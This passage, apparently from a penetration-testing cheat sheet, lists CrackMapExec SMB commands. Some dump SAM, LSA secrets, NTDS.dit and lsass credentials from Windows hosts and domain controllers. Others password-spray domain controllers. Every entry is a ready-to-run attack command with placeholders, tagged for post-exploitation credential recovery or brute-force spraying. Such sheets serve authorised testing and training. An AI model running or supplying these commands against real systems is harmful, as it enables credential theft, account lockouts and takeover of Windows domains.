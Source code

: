 ```bash
cme smb <ip> -u <user> -p <password> -d <domain> --sam
```

## cme - Dump LSA
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT/CREDS_RECOVER

Dump LSA secrets using methods from secretsdump.py
Requires Domain Admin or Local Admin Privileges on target Domain Controller

```bash
cme smb <ip> -u <user> -p <password> -d <domain> --lsa
```

## cme - dump ntds.dit
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT/CREDS_RECOVER

Dump the NTDS.dit from target DC using methods from secretsdump.py
Requires Domain Admin or Local Admin Privileges on target Domain Controller

```bash
cme smb <ip> -u <user> -p <password> -d <domain> --ntds
```

## cme - dump lsass
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT/CREDS_RECOVER

```bash
cme smb <ip> -u <user> -p <password> -d <domain> -M lsassy
```

## cme - dump lsass - with bloodhond update
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT/CREDS_RECOVER

```bash
cme smb <ip> --local-auth -u <user> -H <hash> -M lsassy -o BLOODHOUND=True NEO4JUSER=<user|neo4j> NEO4JPASS=<neo4jpass|exegol4thewin>
```

## cme - password spray (user=password)
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/ATTACK/BRUTEFORCE-SPRAY 

```bash
cme smb <dc-ip> -u <user.txt> -p <password.txt> --no-bruteforce --continue-on-success
```

## cme - password spray multiple test 
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/BRUTEFORCE-SPRAY #tag/warning

(careful on lockout)

```bash
cme smb <dc-ip> -u <user.txt> -p <password.txt> --continue-on-success
```
